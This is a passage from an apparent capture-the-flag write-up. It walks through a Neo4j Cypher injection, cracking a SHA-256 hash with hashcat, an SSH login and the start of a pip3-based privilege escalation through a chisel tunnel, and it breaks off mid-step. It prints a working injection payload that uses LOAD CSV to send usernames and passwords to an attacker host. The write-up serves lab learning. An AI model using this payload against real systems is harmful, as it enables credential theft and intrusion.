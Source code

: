 ![obraz](https://github.com/user-attachments/assets/2e29c9e5-5cfe-492b-8d55-15469bed4d3c)

We have two labels: employees and user.    
The intresting one is probably user.  

From my understanding "user" here is kind of similar to a table in SQL.  
I guessed that it will contain username and password and used this query:  
```
' OR 1=1 WITH 1 AS a MATCH (u:user) WITH u.username AS un, u.password AS pw LOAD CSV FROM "http://10.10.14.9/?" + un + "_" + pw AS l RETURN l//
```
Now if we come back to the python server we get:  
![obraz](https://github.com/user-attachments/assets/d4c281ea-115c-477e-8a0f-2242895dc983)

admin's password we already know but john seems promising.  
We can identify which hashing algorithm it is in any online hash identifier:  
![obraz](https://github.com/user-attachments/assets/0f970d90-0df4-47d3-8acd-8ea3531b1ae8)

We can now put this hash in a file and run hashcat with mode 1400 for sha256 hash:  

![obraz](https://github.com/user-attachments/assets/0cb6ca1b-c528-499d-829f-e33ae51f7719)

It cracked:  

![obraz](https://github.com/user-attachments/assets/51dd556f-243d-4fb8-af2e-841b8f9c0967)

Lastly with credentials we can connect via ssh and retrieve a flag:  

![obraz](https://github.com/user-attachments/assets/e549f9a6-28a6-4fa3-9305-b6c6da813959)

![obraz](https://github.com/user-attachments/assets/fdb88a03-53cc-4c41-908c-76a00d688a99)



## Priv esc to root

One of the first things I check when enumerating linux is sudo -l command which shows us which commands we can run as other user:  

![obraz](https://github.com/user-attachments/assets/9e438eb3-b8fa-4543-9404-95f21e718bd2)

It turned out that we can run:  
```
/usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```
as root without a password.  

Workflow here is going to be creating malicious package and download it but it has to be hosted on localhost port 3000.  
Luckily for us port 3000 is running already on the target machine.  

Tunnel that we previously set using chisel will help us here.  
Let's open this port 3000 on kali (remember to use proxychains in foxyproxy)  

![obraz](https://github.com/user-attachments/assets/c91da41b-7260-46fc-8b43-f781c091cf11)
